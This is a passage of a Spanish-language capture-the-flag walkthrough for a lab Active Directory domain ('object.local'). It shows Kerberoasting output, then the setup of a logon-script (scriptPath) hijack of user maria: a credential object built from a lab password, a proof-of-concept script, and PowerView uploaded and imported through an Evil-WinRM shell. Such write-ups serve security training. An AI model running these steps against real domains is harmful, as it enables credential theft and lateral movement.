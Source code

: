 ```console

[*] SamAccountName         : maria
[*] DistinguishedName      : CN=maria garcia,CN=Users,DC=object,DC=local
[*] ServicePrincipalName   : object.local/test:1337
[*] PwdLastSet             : 10/21/2021 9:16:32 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

 [X] Error during request for SPN object.local/test:1337@object.local : No credentials are available in the security package

[*] Roasted hashes written to : C:\Users\smith\Documents\hashes.kerberoast
```

Vemos un error, `No credentials are available in the security package`

> **This can happen if a user is a "Protected Users" group member, and integrated Windows authentication is disabled for this user**. See Microsoft's KB for more details.

Así que vamos a cambiar el `scriptpath` de `maria` para que cuando inicie sesión se ejecute un script personalizado.

Primero creamos un objeto de credenciales para el usuario `smith`
```console
*Evil-WinRM* PS C:\Users\smith\Documents> $SecPassword = ConvertTo-SecureString 'Pointed123@' -AsPlainText -Force
```

```console
*Evil-WinRM* PS C:\Users\smith\Documents> $Cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $SecPassword)
```

Ahora creamos un script de prueba llamado `test.ps1` que cuando se ejecute simplemente creará un archivo `poc.txt`

```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> echo 'whoami > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > test.ps1
```

Ahora necesitamos `PowerView.ps1` de suite de `PowerSploit`, esto trae muchas herramientas definidas en módulos de PowerShell para reconocimiento y escalada de privilegios en entornos de directorio activo.

```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> upload PowerView.ps1
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/PowerView.ps1 to C:\Windows\System32\spool\drivers\color\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

Importamos `PowerView.ps1`
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Import-Module .\PowerView.ps1
```

